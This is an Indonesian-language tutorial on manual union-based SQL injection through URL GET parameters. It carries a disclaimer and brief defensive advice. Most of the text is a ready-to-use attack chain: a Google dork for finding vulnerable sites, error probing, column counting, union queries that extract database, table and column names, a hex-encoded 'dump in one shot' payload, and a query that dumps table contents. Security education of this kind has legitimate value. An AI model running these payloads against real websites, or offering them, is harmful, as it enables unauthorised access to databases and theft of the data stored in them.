# Union SQL Injection Manual Sederhana: Metode GET HTTP

**Penulis:** R&D ICWR  
**Tanggal Terbit:** 2024-01-18

---

### **Disclaimer:**

_Disclaimer ini disengaja ditempatkan di bagian atas agar dibaca terlebih dahulu._  
Tujuan dari pembelajaran berikut adalah untuk keperluan pembelajaran dan peningkatan keamanan pada website saja. Tutorial ini tidak dimaksudkan untuk digunakan dalam aktivitas ilegal seperti dumping database. Jika ada pihak yang menggunakan tutorial ini untuk aktivitas ilegal, hal tersebut bukanlah tanggung jawab kami.

---

SQL injection merupakan teknik serangan keamanan yang memanfaatkan celah pada sistem pengolahan query SQL pada aplikasi web. Pada serangan ini, penyerang menginjeksikan perintah SQL berbahaya ke dalam input aplikasi. Jika aplikasi tidak melakukan validasi atau penyaringan input dengan benar, perintah SQL tersebut dapat dieksekusi oleh database.

Salah satu bentuk umum serangan SQL injection terjadi melalui metode GET dalam protokol HTTP, di mana parameter URL dapat dimanipulasi untuk menyisipkan perintah SQL yang membahayakan integritas data atau memungkinkan akses yang tidak sah.

Sebagai contoh:

```

[http://contoh.com/login.php?username=admin](http://contoh.com/login.php?username=admin)' OR '1'='1' -- \&password=abc

```

Dalam contoh ini, penyerang mencoba menyisipkan perintah SQL yang selalu benar, sehingga mengakibatkan akses ke seluruh data dari tabel yang bersangkutan.

Untuk menjaga keamanan aplikasi dari serangan SQL injection:

- Validasi dan bersihkan input
- Gunakan parameterized queries atau prepared statements
- Lakukan pengujian keamanan secara berkala

---

### Mencari Target

Gunakan Google Dork seperti:

```

inurl:"\*.php?id="

```

Setelah menemukan website target, misalnya:

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)

```

Uji dengan menambahkan `'` atau `"`:

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)'
[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)"

```

Jika muncul error seperti:

```

Warning: mysqli\_num\_rows() expects

```

...kemungkinan besar situs tersebut rentan terhadap SQL Injection.

---

### Identifikasi Database

Tambahkan karakter balancing:

- `--` untuk MySQL Linux Style
- `--+` untuk MySQL Windows Style
- `#` (URL Encode)
- `--+-` SQL Comment
- `;%00` Null Byte
- _Backtick_

Contoh:

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)' --+-

```

---

### Menentukan Jumlah Kolom

Gunakan pendekatan bertahap:

- `http://contoh.com/get_name?id=1' order by 1--+-` → Tidak error  
- `http://contoh.com/get_name?id=1' order by 2--+-` → Tidak error  
- `http://contoh.com/get_name?id=1' order by 3--+-` → Tidak error  
- `http://contoh.com/get_name?id=1' order by 4--+-` → Error (jumlah kolom: 3)

---

### Cek Posisi Kolom

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)' union select 1,2,3--+-

```

Untuk menampilkan nama database:

```

[http://contoh.com/get\_name?id=-1](http://contoh.com/get_name?id=-1)' union select 1,database(),3--+-

```

---

### Mendapatkan Nama Tabel

```

[http://contoh.com/get\_name?id=-1](http://contoh.com/get_name?id=-1)' union select 1,group\_concat(table\_name),3 from information\_schema.tables where table\_schema=database() --+-

```

---

### Mendapatkan Nama Kolom (hex)

```

[http://contoh.com/get\_name?id=-1](http://contoh.com/get_name?id=-1)' union select 1,group\_concat(column\_name),3 from information\_schema.columns where table\_name=0x6e616d615f746162656c --+-

````

---

### Dump in One Shot SQL Injection

```sql
http://contoh.com/get_name?id=-1' union select 1,concat(
    0x3c623e44756d7020696e204f6e652053686f743c2f623e3c62723e,
    version(),0x3c62723e,user(),0x3c62723e,database(),0x3c62723e,
    @c:=0x00,
    if((select count(*) from information_schema.columns 
        where table_schema not like 0x696e666f726d6174696f6e5f736368656d61 
        and @c:=concat(@c,0x3c62723e,table_name,0x2e,column_name)),
        0x00,0x00),
    @c),3--+-
````

---

### Menampilkan Isi Kolom

```
http://contoh.com/get_name?id=-1' union select 1,group_concat(id,judul,detail),3 from nama_tabel --+-
```

---

Melalui serangkaian langkah kompleks ini, penyerang dapat berhasil mengeksploitasi dan memperoleh akses tidak sah ke dalam database suatu aplikasi.

> **Penting:** Praktek-praktek ini hanya boleh digunakan untuk **pembelajaran** dan **pengujian keamanan yang sah**. Etika dan tanggung jawab sangat penting untuk mencegah penyalahgunaan.

---

**Penulis:** Afrizal F.A

---

### Referensi:

* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
* [https://exploit.linuxsec.org/tutorial-sql-injection-manual/](https://exploit.linuxsec.org/tutorial-sql-injection-manual/)
* [https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/](https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/)
* [https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html](https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
